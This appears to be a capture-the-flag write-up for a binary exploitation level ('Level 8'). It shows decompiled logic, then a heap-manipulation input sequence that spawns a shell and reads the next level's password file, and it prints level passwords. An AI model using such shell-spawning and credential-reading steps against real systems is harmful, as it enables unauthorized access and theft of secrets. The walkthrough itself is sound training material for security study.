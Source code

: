 # Level 8
*password : 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9*

```
$ scp -P 4242 level8@192.168.56.108:level8 binary/
```

## Analyze

bool4 must be true

```
    while ((bool)bool3) {
      if (fd == 0) break;
      --fd;
      bool4 = *str_tmp < *cmp;
      bool3 = *str_tmp == *cmp;
      ++str_tmp;
      ++cmp;
    }
```

at the end of the loop str_tmp[i] must be < to cmp[i]

cmp = "login"
str = input

### Check

```
$ ./level8
login
Segmentation fault (core dumped)
```
condition pass

---

auth[8] must be different to '\0'

```
      if (auth[8] == 0) {
        fwrite("Password:\n",1,10,stdout);
      }
      else {
        system("/bin/sh");
      }
```

### Check
```
$ ./level8
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

